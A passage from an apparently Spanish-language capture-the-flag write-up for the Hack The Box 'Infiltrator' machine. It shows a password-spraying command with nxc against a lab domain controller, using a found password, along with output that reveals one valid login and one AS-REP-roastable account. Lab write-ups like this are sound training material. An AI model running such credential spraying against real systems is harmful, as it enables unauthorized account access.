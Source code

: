 Por otro lado, también vemos que en las noticias aparecen lo que parecen ser las credenciales de acceso del usuario `m.harris@infiltrator.htb`.

<figure><img src="../../../.gitbook/assets/imagen (54).png" alt="" width="539"><figcaption></figcaption></figure>

Probaremos de  realizar un _**Password Spraying**_ para verificar si estas credenciales son válidas para algún usuario.

```bash
❯ nxc smb dc01.infiltrator.htb -u users.txt -p 'D3v3l0p3r_Pass@1337!' -k --continue-on-success
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:D3v3l0p3r_Pass@1337! 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\e.rodriguez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark account vulnerable to asreproast attack
```
